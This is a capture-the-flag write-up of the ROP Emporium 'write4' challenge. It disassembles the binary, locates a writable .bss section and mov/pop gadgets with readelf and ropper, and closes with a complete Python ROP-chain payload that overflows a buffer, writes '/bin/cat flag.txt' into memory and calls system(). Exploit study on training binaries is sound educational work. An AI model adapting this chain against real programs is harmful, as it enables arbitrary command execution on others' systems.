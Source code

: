 ```yaml
---
title: 04_write4
categories: [series, rop_emporium]
---
```


# ROP Emporium write4

* **Tools:** IDA Free 7.0, gdb-gef, ropper, readelf
* **Prerequistes:** Stack frame
* **Download solution:** [main.py](/assets/series/rop_emporium/main.py)

## Overview

> "In this challenge [...] we'll be looking for gadgets that let us write a value to memory such as mov [reg], reg."

The author states there are 3 very different ways to solve the challenge, but I'll stick with the original goal of using a `mov [reg], reg` gadget.

## Function pwnme()

Still the same, except `_fgets()` accepts an input bigger than ever:
```
0x00000000004007EC    mov     rdx, cs:stdin@@GLIBC_2_2_5 ; stream
0x00000000004007F3    lea     rax, [rbp+s]
0x00000000004007F7    mov     esi, 512        ; n
0x00000000004007FC    mov     rdi, rax        ; s
0x00000000004007FF    call    _fgets
```

## Function usefulFunction():

This function calls `_system()`, and `edi` points to the string `"/bin/ls"`:
```
0x0000000000400807    push    rbp
0x0000000000400808    mov     rbp, rsp
0x000000000040080B    mov     edi, offset command ; "/bin/ls"
0x0000000000400810    call    _system
```
In the [split](/posts/ropemporium-split) challenge, the string `"/bin/cat flag.txt"` was present in the binary. Here it has been removed, so we'll have to write it somewhere.

## Searching a writeable area

Let's search writeable sections with **readelf**:
```bash
readelf --sections ../challs/write4
There are 31 section headers, starting at offset 0x1bf0:

Section Headers:
  [Nr] Name              Type             Address           Offset
       Size              EntSize          Flags  Link  Info  Align
[...]
  [26] .bss              NOBITS           0000000000601060  00001060
       0000000000000030  0000000000000000  WA       0     0     32
[...]
```
Several sections have the **W** flag. I have chosen `.bss` as it is big enough to store the string `"/bin/cat flag.txt"`.

## Searching gadgets:

We find 2 memory writes:
```bash
ropper --search "mov [" -f ../challs/write4
[...]
0x0000000000400821: mov dword ptr [rsi], edi; ret; 
0x0000000000400820: mov qword ptr [r14], r15; ret; 
```
[]()
In order to use the first gadget, we have to control the values of `rsi` and `edi`:
```bash
ropper --search "??? ?di" -f ../challs/write4
[...]
0x0000000000400893: pop rdi; ret;
``` 
and:
```bash
ropper --search "??? ?si" -f ../challs/write4
[...]
0x0000000000400891: pop rsi; pop r15; ret;
```
Seems cool. In addition, controlling `edi` is necessary to call `_system()` properly.

In order to use the second memory write gadget, we have to control `r14` and `r15`:
```bash
ropper --search "??? r14" -f ../challs/write4
[...]
0x0000000000400890: pop r14; pop r15; ret;
```
and:
```bash
ropper --search "??? r15" -f ../challs/write4
[...]
0x0000000000400892: pop r15; ret;
```
To summarize: we can write what we want with the `pop reg` gadgets, and we can write where we want with the `mov [reg], reg` gadgets (as long as the destination is writeable).
On a side note, it is funny to see how many gadgets can be found just because `rip` can points to non-aligned addresses. however, we'll go for the `r14`/`r15` gadgets.

## Building the chain

```python
payload = b''
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41' # fill buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41' # fill buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41' # fill buffer
payload += b'\x41\x41\x41\x41\x41\x41\x41\x41' # fill buffer
payload += b'\x42\x42\x42\x42\x42\x42\x42\x42' # fill buffer (overwrite RSP)

payload += b'\x90\x08\x40\x00\x00\x00\x00\x00' # pop r14, pop r15, ret
payload += b'\x60\x10\x60\x00\x00\x00\x00\x00' # r14 -> .bss
payload += b'\x2f\x62\x69\x6e\x2f\x63\x61\x74' # r15 = "/bin/cat"
payload += b'\x20\x08\x40\x00\x00\x00\x00\x00' # mov [r14], r15

payload += b'\x90\x08\x40\x00\x00\x00\x00\x00' # pop r14, pop r15, ret
payload += b'\x68\x10\x60\x00\x00\x00\x00\x00' # r14 -> .bss+8
payload += b'\x20\x66\x6c\x61\x67\x2e\x74\x78' # r15 = " flag.tx"
payload += b'\x20\x08\x40\x00\x00\x00\x00\x00' # mov [r14], r15

payload += b'\x90\x08\x40\x00\x00\x00\x00\x00' # pop r14, pop r15, ret
payload += b'\x70\x10\x60\x00\x00\x00\x00\x00' # r14 -> .bss+0x10
payload += b'\x74\x00\x00\x00\x00\x00\x00\x00' # r15 = "t\x00"
payload += b'\x20\x08\x40\x00\x00\x00\x00\x00' # mov [r14], r15

payload += b'\x93\x08\x40\x00\x00\x00\x00\x00' # pop rdi, ret
payload += b'\x60\x10\x60\x00\x00\x00\x00\x00' # rdi->"/bin/cat flag.txt"
payload += b'\x10\x08\x40\x00\x00\x00\x00\x00' # call _system()
payload += b'\x43\x43\x43\x43\x43\x43\x43\x43' # dummy (stack alignment)
payload += b'\x79\x06\x40\x00\x00\x00\x00\x00' # hlt
```
---
EOF

